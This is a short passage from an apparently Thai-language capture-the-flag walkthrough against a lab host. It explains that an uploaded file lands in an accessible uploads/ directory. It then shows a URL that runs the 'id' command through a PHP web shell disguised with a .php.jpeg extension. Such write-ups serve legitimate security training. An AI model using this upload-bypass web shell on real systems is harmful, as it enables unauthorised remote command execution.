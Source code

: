 ![](./IMG/007.png)


และเราจะเห็นได้ว่าไฟล์ของเราอยู่ภายใต้ uploads/ ซึ่งทำให้เราสามารถเข้าถึงไฟล์ดังกล่าวได้ 

```
http://10.10.10.146/uploads/10_10_14_6.php.jpeg?cmd=id
```

![](./IMG/008.png)
